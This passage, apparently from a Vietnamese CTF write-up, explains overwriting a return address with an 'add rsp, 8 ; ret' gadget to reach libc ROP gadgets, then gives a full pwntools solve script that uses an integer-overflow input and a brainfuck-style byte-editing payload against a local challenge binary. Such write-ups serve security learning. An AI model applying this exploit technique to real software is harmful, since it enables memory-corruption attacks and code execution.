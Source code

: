 Còn với return address mình sẽ sửa thành gadget `0x0000000000001016 : add rsp, 8 ; ret` để có thể return vào các gadget libc mà mình chuẩn bị sẵn.

Mình khá chắc đây không phải là intended solution. Bởi vì để thực hiện thì cách này có xác suất là 1/? tùy thuộc vào base của libc và base của binary, đôi khi các phép cộng hay trừ sẽ bị nhớ 1 hay trừ một vào đơn vị số liền kề bên trái khiến cho địa chỉ gadget sẽ sai.

Đây là script solve cho 2 bài trên của mình:

```python
from pwn import *

io = process('./game')
#gdb.attach(io, gdbscript='''
#        handle SIGALRM ignore
#        set follow-fork-mode parent
#        b memset
#        ''')
#io = remote('20.121.188.64', 31337)

io.sendline(b'1')
io.sendline(b'\x01'+b'A'*300)
io.sendline(b'-2147483648')
#pause()
io.sendline(b'-1')
io.sendline(b'3')

pl = b'>'*152
pl += b'-'*0x30
pl += b'>'
pl += b'-'*0x8
pl += b'>'*7
pl += b'>'*8

pl += b'-'*0x94
pl += b'>'
pl += b'-'*0x7b
pl += b'>'
pl += b'-'*0x16
pl += b'>'*6

pl += b'+'*0x10
pl += b'>'*8

pl += b'>'*8*3

pl += b'-'*0xd7
pl += b'>'
pl += b'-'*0x4b
pl += b'>'
pl += b'-'*0x1e
pl += b'>'*6

pl += b'>'*8*2

pl += b'-'*0x59
pl += b'>'
pl += b'+'*0x6d
pl += b'>'
pl += b'+'*0x2

io.sendline(pl)
io.interactive()
```
